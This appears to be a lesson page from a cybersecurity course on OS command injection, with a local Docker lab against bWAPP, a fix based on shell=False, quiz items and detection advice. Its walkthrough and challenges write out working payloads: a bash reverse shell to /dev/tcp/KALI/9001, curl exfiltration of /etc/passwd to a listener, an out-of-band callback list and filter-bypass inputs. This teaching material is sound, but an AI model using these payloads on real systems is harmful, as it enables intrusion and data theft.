

<!-- SPDX-License-Identifier: GPL-3.0-or-later | Copyright (C) 2026 Nithees Narendra S -->
[Home](../../README.md) › [Vulnerabilities](README.md) › **OS Command Injection**

# OS Command Injection

Shell metacharacters, argument injection, blind detection and safe process invocation.

<div class="meta-row"><span class="badge b-intermediate">Intermediate</span><span class="badge">⌨ ~48 min hands-on</span><span class="badge">📖 ~16 min read</span><button id="lesson-complete" class="lesson-check"><span class="lbl">Mark complete</span></button></div>

**▶ Here to build, not read? Jump to the [Hands-On Practice](#hands-on-practice).**

**Prerequisites:** [Web Application Architecture](../03-web-security/web-architecture.md) · [HTTP for Security Testing](../03-web-security/http-protocol.md)

## Overview

OS command injection occurs when an application builds a system-shell command out of
untrusted input. The shell is a powerful interpreter with metacharacters (`;`, `|`, `&`, `` ` ``, `$()`) that
separate and chain commands; when user input flows into a command string unescaped, those metacharacters let an
attacker append or substitute commands that run with the application's privileges. It is the same code/data
confusion as SQL injection, but the interpreter is the operating-system shell, and the payoff is usually direct
RCE.

The definitive fix is architectural, not cosmetic: do not invoke a shell at all. Call the target program
directly through an API that takes an *array of arguments* (`execve`, `subprocess.run([...], shell=False)`),
so the OS treats each argument as opaque data and there is no shell to interpret metacharacters. Escaping is a
fragile fallback; avoiding the shell removes the vulnerability class.

### How it works

A vulnerable ping feature:

```python
os.system("ping -c 1 " + user_host)      # user_host = "8.8.8.8; cat /etc/passwd"
```

The shell runs `ping`, sees `;`, and runs `cat /etc/passwd` next. Variants:
- **In-band** — output is returned, so `; id` shows immediately.
- **Blind** — no output; confirm with time (`; sleep 5`) or an out-of-band callback (`; curl http://you/$(whoami)`).
- **Argument injection** — even without shell metacharacters, injecting extra *flags* (e.g. a leading `-`)
  changes the invoked program's behaviour dangerously.

The safe version passes an argument list and no shell:

```python
subprocess.run(["ping", "-c", "1", user_host], shell=False)   # user_host can never become a new command
```



<div class="card"><div class="card-title">🔑 Key terms</div>

- **Shell metacharacter** — A character the shell treats specially (`; | & $ ( ) ` < >`) to chain or substitute commands.
- **Argument injection** — Injecting extra flags into a command even when metacharacters are blocked.
- **Blind command injection** — No command output returned; inferred via timing or out-of-band callbacks.
- **Shell=False / execve** — Invoking a program directly with an argument array, bypassing shell parsing.
- **Allow-list validation** — Restricting input to a known-good set when a value must be interpolated.

</div>

> [!EXAMPLE] **In the wild.** **Shellshock (2014).** A 25-year-old Bash feature (exported function definitions) parsed and
executed trailing commands, so `() { :; }; <command>` in an environment variable ran that command. Via CGI, web
requests set those variables, yielding unauthenticated RCE on countless servers. The lesson: interpreters
evaluate more than you think, and the safe path is to never let untrusted data reach one.

## Hands-On Practice

> [!TIP] This is the main event. Bring up the lab, then work the walkthrough — every command has a **▸ Run** button (needs the lab runner) and a **📋 Copy** button. ~48 min, Kali attacker, fully local.

**Mission.** Turn a 'ping/lookup' feature into command execution, go blind, then fix it by removing the shell.

```cf-lab
{"title": "Vulnerabilities", "section": "04-vulnerabilities", "targets": [["bWAPP / DVWA / Juice Shop", "the web bug targets (see the Web Security part environment)"], ["pwn-box", "Ubuntu build/debug container for buffer/heap/format-string labs"]], "compose": "# vuln-lab/docker-compose.yml  —  Vulnerabilities part environment\nservices:\n  bwapp:\n    image: raesene/bwapp\n    ports: [\"8081:80\"]\n    networks: [labnet]\n  dvwa:\n    image: vulnerables/web-dvwa\n    ports: [\"8082:80\"]\n    networks: [labnet]\n  pwn-box:\n    image: ubuntu:22.04\n    container_name: pwn-box\n    cap_add: [\"SYS_PTRACE\"]          # allow gdb inside the container\n    security_opt: [\"seccomp=unconfined\"]\n    command: sleep infinity\n    networks: [labnet]\n\nnetworks:\n  labnet:\n    driver: bridge"}
```

**Target for this lesson:** bWAPP → *OS Command Injection* at http://localhost:8081 (DNS lookup form). Full setup: [Vulnerabilities lab environment](README.md#lab-environment).

### Guided walkthrough

<div class="stepper">

```cf-step
{"n": 1, "goal": "Baseline the feature", "cmd": "# bWAPP commandi.php: enter  www.nsa.gov", "output": "The page returns nslookup output — the app shells out to a system command.", "why": "Any place the app runs a shell with your input is a candidate.", "runnable": false}
```
```cf-step
{"n": 2, "goal": "Inject a second command", "cmd": "www.nsa.gov; id", "output": "uid=33(www-data) gid=33(www-data) groups=33(www-data)", "why": "The `;` ended the intended command and the shell ran `id` next — code execution as www-data.", "runnable": true}
```
```cf-step
{"n": 3, "goal": "Go blind (no output path)", "cmd": "www.nsa.gov; sleep 5", "output": "The response takes ~5s — command runs even when output isn't shown.", "why": "Timing (or an OOB callback) confirms blind injection.", "runnable": true}
```
```cf-step
{"n": 4, "goal": "Get a shell (lab)", "cmd": "www.nsa.gov; bash -c 'bash -i >& /dev/tcp/KALI/9001 0>&1'   # nc -lvnp 9001 on Kali", "output": "A reverse shell lands on your listener as www-data.", "why": "Injection → interactive foothold; now privesc would follow (see that chapter).", "runnable": true}
```
```cf-step
{"n": 5, "goal": "Fix: no shell", "cmd": "# subprocess.run(['nslookup', host], shell=False)  + allow-list the host format", "output": "`; id` is now treated as part of the hostname argument and simply fails to resolve.", "why": "With no shell, metacharacters are inert data — the whole class is gone.", "runnable": false}
```

</div>

### Live terminal

```cf-terminal
{"title": "kali@command-injection — start the lab runner for a live shell"}
```

### Try it yourself

> [!NOTE] Try each for real. Open the hint only when stuck, the solution only to check.

**Challenge 1.** Exfiltrate `/etc/passwd` one line at a time using only blind injection (no reverse shell).

<details><summary>Hint</summary>

Use an OOB channel: DNS/HTTP callback with command output in the request.

</details>
<details><summary>Solution</summary>

`...; curl http://KALI:9001/$(head -1 /etc/passwd|base64)` and read your listener log.

</details>

**Challenge 2.** The app blocks `;` and `&`. Get execution anyway.

<details><summary>Hint</summary>

Newlines, `|`, `$()` and backticks also chain/substitute.

</details>
<details><summary>Solution</summary>

`www.nsa.gov%0aid` (URL-encoded newline) or `$(id)` command substitution.

</details>

**Challenge 3.** Demonstrate argument injection with NO metacharacters at all.

<details><summary>Hint</summary>

A leading dash makes your input look like a flag.

</details>
<details><summary>Solution</summary>

Against a tool like `find`/`tar`, an input of `-exec ...` or `--checkpoint-action` abuses parsing without any `;`.

</details>

### Quick quiz

```cf-quiz
{"q": "What is the real fix for OS command injection?", "options": ["Blacklist ; and |", "Invoke the program with an argument array (no shell)", "Escape spaces", "Run as a non-root user"], "answer": 1, "explain": "With shell=False / execve and an argument array there is no shell to interpret metacharacters, so the class disappears. Least-privilege only limits impact."}
```

### Detect & defend (blue-team view)

- Alert on the web-server user (`www-data`) spawning child processes like `sh`, `bash`, `curl`, `nslookup`.
- Auditd/Sysmon process-creation events with a web process parent are high-signal.

### Skills check

You can move on when you can, without notes:

- [ ] Prove in-band and blind command injection and get a foothold safely.
- [ ] Bypass naive metacharacter filters and explain argument injection.
- [ ] Remediate by removing the shell (shell=False) and allow-listing input.

### Going deeper — Testing and fixing

**Detect** by probing each parameter that might reach a command:

```
; id            | id            & id            $(id)           `id`
%0a id          || id           && id           ; sleep 5       ; curl http://OOB/$(whoami)
```

**Fix**, in order of preference:
1. **Avoid the shell** — call the binary with an argument array (`shell=False`); this is the real fix.
2. **Avoid invoking external programs** at all where a library call will do (resolve DNS, process an image
   in-process).
3. **Allow-list** the input where a value must be passed (e.g. a hostname matched against a strict pattern).
4. **Never** rely on blacklisting metacharacters — encodings and shells differ, and argument injection remains.

Detection: alert on the web-server user spawning shells or unexpected child processes.


## Check Yourself

_Quick self-test — answers hidden. If you can't answer without notes, redo the relevant walkthrough step._

**Q1. In one sentence, what security problem does OS Command Injection address or create?**

<details><summary>Show answer</summary>

OS Command Injection matters because its behaviour determines where trust is placed; misplacing that trust is the root of the associated bug class.

</details>

**Q2. Name one trust boundary involved in OS Command Injection and what crosses it.**

<details><summary>Show answer</summary>

Any point where attacker-influenced data meets privileged processing — e.g. user input reaching an interpreter, or a token reaching a verifier.

</details>

**Q3. Give one attack against OS Command Injection and the single control that most reduces its impact.**

<details><summary>Show answer</summary>

State the attack precisely, then the *primary* control (validation, encoding, isolation, authentication, or least privilege) — not a laundry list.

</details>

**Interview angles**

- Walk me through how OS Command Injection works, then tell me where you would attack it.
- How would you detect OS Command Injection being abused in an environment you defend?
- What is the difference between mitigating and eliminating the risk associated with OS Command Injection?

## Pitfalls & Best Practice

**Common mistakes**

- Building command strings with user input and passing them to a shell.
- Blacklisting a few metacharacters instead of avoiding the shell entirely.
- Forgetting argument injection — a leading dash can change a program's behaviour without any metacharacter.
- Shelling out to a tool when an in-process library would avoid the risk completely.
- Missing blind injection because 'nothing came back' — timing/OOB still confirms it.

**Do this instead**

- Invoke programs with an argument array and shell=False; never construct shell strings from input.
- Prefer in-process libraries over spawning external commands.
- Where interpolation is unavoidable, allow-list against a strict pattern.
- Run the service least-privilege so successful injection yields little.
- Detect web-server processes spawning shells or unexpected children.

## Reference

### MITRE ATT&CK Mapping

| Technique | ID |
| --- | --- |
| ATT&CK technique | [T1059](https://attack.mitre.org/techniques/T1059/) |

### OWASP Mapping

- See [OWASP Top 10](../03-web-security/owasp-top-10.md) for the relevant category when this applies to web systems.

### CWE Mapping

| CWE | Weakness |
| --- | --- |
| [CWE-78](https://cwe.mitre.org/data/definitions/78.html) | OS Command Injection |
| [CWE-77](https://cwe.mitre.org/data/definitions/77.html) | Command Injection |

### CAPEC Mapping

| CAPEC | Attack pattern |
| --- | --- |
| [CAPEC-248](https://capec.mitre.org/data/definitions/248.html) | Command Injection |

### CVE References

- No canonical CVE for a concept page. Search the [NVD](https://nvd.nist.gov/) for concrete instances when studying real cases.

### NIST References

- [NIST CSRC Publications](https://csrc.nist.gov/publications) — search for the control family or guide relevant to this topic.

### RFC References

- No governing RFC for this topic. Where a protocol is involved, its RFC is linked from the relevant networking chapter.

### Research Papers

- *Reflections on Trusting Trust* — Ken Thompson, 1984
- *Smashing the Stack for Fun and Profit* — Aleph One, Phrack 49, 1996
- *The Protection of Information in Computer Systems* — Saltzer & Schroeder, 1975

### Books

- *The Web Application Hacker's Handbook, 2nd ed.* — Stuttard & Pinto
- *Real-World Bug Hunting* — Peter Yaworski
- *The Tangled Web* — Michal Zalewski
- *Web Security for Developers* — Malcolm McDonald

### Official Documentation

- [OWASP Command Injection Defense](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)

### Related Chapters

- [Vulnerability Taxonomy](vulnerability-taxonomy.md)
- [SQL Injection](sql-injection.md)
- [Blind SQL Injection](blind-sql-injection.md)
- [NoSQL Injection](nosql-injection.md)
- [Cross-Site Scripting](xss.md)
- [Stored XSS](stored-xss.md)

---

_Part of the **Vulnerabilities** section of [Cybersecurity-Mastery](../../README.md). 🟡 Intermediate · ~48 min hands-on · Last updated 2026-08-13._
